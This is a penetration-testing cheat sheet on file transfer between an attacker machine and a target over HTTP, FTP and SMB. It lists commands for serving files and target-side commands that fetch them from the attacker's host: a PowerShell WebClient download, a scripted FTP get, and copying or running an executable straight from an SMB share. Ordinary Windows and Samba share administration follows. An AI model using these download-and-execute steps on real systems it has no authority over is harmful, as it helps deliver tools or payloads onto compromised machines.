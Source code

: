 # File Transfer

File can either be transferred by:

* Push file to target
* Have the target to pull file back

## HTTP

**On attacker machine**:

### Apache

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start

### Python

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer \[port no\]

**On target machine**:

```
http://your_ip_address:your_port_num/filename
```

If you only have command line access in a Windows machine, use PowerShell's WebClient object:
> powershell -c "(new-object System.Net.WebClient).DownloadFile('[http://your_ip_address:your_port_num/filename','C:\Users\dest_path\file_name]')"

or use cmd.exe to trigger IE

```
cd Program Files\Internet Explorer start iexplore.exe "http://ip_address/file"
```

## FTP

### vsftpd/pytftpd

**On attacker machine**:

`vsftpd` or simply the `pytftpd` library

```
apt-get install python-pyftpdlib
python -m pyftpdlib -p [port_num]
```

default port is 2121

`-w` can grant the user write access

### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

```
use auxiliary/server/ftp
set FTPROOT /root/shells
exploit
```

Can be kill with:

> jobs -k \[id\]

**On target machine**:

Type it into your cmd.exe

```
echo open your_ip_address > ftp_commands.txt  
echo your_username >> ftp_commands.txt  
echo your_password >> ftp_commands.txt  
echo binary >> ftp_commands.txt  
echo get your_file >> ftp_commands.txt  
echo bye >> ftp_commands.txt  
ftp -s:ftp_commands.txt
```

## SMB

**On attacker machine**:

> `smbserver.py shareName sharePath` `(e.g. smbserver.py TMP /tmp)`

Check with smbclient

> `smbclient -L [your ip address] --no-pass`

**On target machine**: 

> `net view \\\\[attack machine ip address]`

Copy file `copy \\[your ip address]\Sharepath .`

Or execute the file directly from SMB `\\[your ip address]\file.exe`


### Windows to Windows

Create a new local file share:

`NET SHARE work=C:\docs\work /REMARK:"work share" /CACHE:No`

Delete the share:

`NET SHARE work /DELETE`

List the File/Printer shares on a remote computer:

`NET VIEW \\ComputerName`

List all the shares in the domain:

`NET VIEW /DOMAIN`

Join a file share (Drive MAP):

`NET USE [driveletter:] \\ComputerName\ShareName`

(replace [driveletter:] with the drive letter you want to assign).


### Linux to Windows

Backup and modify `/etc/samba/smb.conf`

Add the following configuration
```
[sharedname]
path = [path to share]
available  = yes
valid users = [current user]
read only = no
browsable = yes
public = yes
writable = yes
```

Add user and password
`smbpasswd -a [current user]`

List user
`pdbedit -L`

Restart SMB service
`service smb restart` 

or 

`sudo /etc/init.d/samba restart`

Access the IP address of the computer from Windows
